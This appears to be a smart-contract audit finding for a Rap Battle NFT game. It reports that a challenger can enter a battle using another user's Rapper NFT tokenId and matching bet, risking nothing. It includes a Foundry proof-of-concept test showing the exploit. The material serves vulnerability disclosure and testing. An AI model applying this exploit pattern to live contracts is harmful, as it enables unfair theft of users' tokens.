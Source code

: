
### [HIGH-1] A challenger can initiate a battle without owning a `Rapper NFT` or `CredToken` and if he wins, he get's prize. if he loses, transaction reverts.

**Description**

A challenger can initiate a battle without owning a `Rapper NFT` or `CredToken` by passing another user's Rapper NFT `tokenId` and the same bet amount as the defender. If the challenger wins, they claim the prize; otherwise, the transaction reverts.

**Impact**

This vulnerability allows attackers to exploit the contract, participate in battles without risking their assets, and potentially win rewards unfairly.

**Proof of Concepts**

Put the Following test inside the `OneShotTest.t.sol`:

```javascript
    function testChallengerStartsBattleWithoutHavingAnCredTokenOrRapperNFT() public {
        vm.startPrank(user);

        // user mints himself an Rapper NFT to stake it for 4 days, to get `4 Cred` token's in return.
        oneShot.mintRapper();
        oneShot.approve(address(streets), 0);
        streets.stake(0);
        vm.warp(block.timestamp + 4 days);
        streets.unstake(0);
        assertEq(cred.balanceOf(user), 4);

        // user goes on stage and becomes `defender`.
        oneShot.approve(address(rapBattle), 0);
        cred.approve(address(rapBattle), 4);
        rapBattle.goOnStageOrBattle(0, 4);

        vm.stopPrank();

        vm.startPrank(challenger);
        // challenger joins the battle without having `CredToken` or `RapperNFT` by passing `user` NFT token id which is `0` and `4` Cred token as amount which is a way to bypass
        // "require(defenderBet == _credBet, 'RapBattle: Bet amounts do not match');" statement. 
        rapBattle.goOnStageOrBattle(0, 4);
        // now challenger either gonna win the battle and get `4 Cred` tokens as Reward, or this will revert because of `credToken.transferFrom(msg.sender, _defender, _credBet);`, since 
        // challenger has no `Cred` token to transfer from himself to `defender`.
        vm.stopPrank();
    }
```

run the test with following command:

```javascript
    forge test --match-test testChallengerStartsBattleWithoutHavingAnCredTokenOrRapperNFT -vvvv
```
